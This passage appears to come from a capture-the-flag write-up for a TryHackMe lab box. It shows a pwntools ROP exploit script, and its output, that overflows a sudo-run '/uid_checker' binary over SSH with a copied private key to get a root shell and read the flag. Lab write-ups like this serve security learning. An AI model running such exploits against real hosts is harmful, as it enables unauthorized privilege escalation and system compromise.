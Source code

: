 ```text
kali@###.###.###.###'s password:

id_rsa                                        100% 1675    31.5KB/s   00:00
```

I executed the script and finally found myself in a root shell on the remote host. The final flag is located in the root home directory.

```text
kali@kali:~/THM/dave$ python3 rop.py
[+] Connecting to dave.thm on port 22: Done
[*] dave@dave.thm:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Starting remote process 'sudo' on dave.thm: pid 2302
[*] Switching to interactive mode
Enter 1 to check your UID or enter 2 to check your GID
Invalid choice
# $ id; pwd;
uid=0(root) gid=0(root) groups=0(root)
/home/dave
# $ cd /root
# $ ls -al
total 48
drwx------  6 root root 4096 May 22 13:32 .
drwxr-xr-x 24 root root 4096 May 21 20:28 ..
lrwxrwxrwx  1 root root    9 May 21 20:30 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 May 21 20:26 .cache
-rw-------  1 root root  161 May 21 20:48 .dbshell
drwx------  3 root root 4096 May 21 20:26 .gnupg
drwxr-xr-x  3 root root 4096 May 21 20:26 .local
lrwxrwxrwx  1 root root    9 May 21 20:46 .mongorc.js -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   38 May 21 20:57 root.txt
-rw-r--r--  1 root root   66 May 21 20:44 .selected_editor
-rw-r--r--  1 root root   87 May 22 13:31 setup.sh
drwx------  2 root root 4096 May 21 17:48 .ssh
# $ cat root.txt
THM{################################}
```

### Hidden in plain sight

I mentioned a second solution which I came up with while fiddling with different ROP chains. Prepare yourself, because I was wondering how I didn't come up with this in the first place.

```py
from pwn import *

cyclic_len = 88

payload = cyclic(cyclic_len)

payload += p64(0x4006b7)    # lea rdi *"/bin/sh"; system();

s = ssh(host='dave.thm', user='dave', keyfile='./id_rsa')
p = s.process([ "sudo", "/uid_checker"])
# Wait for input
p.recv()
p.sendline(payload)
# enter shell
```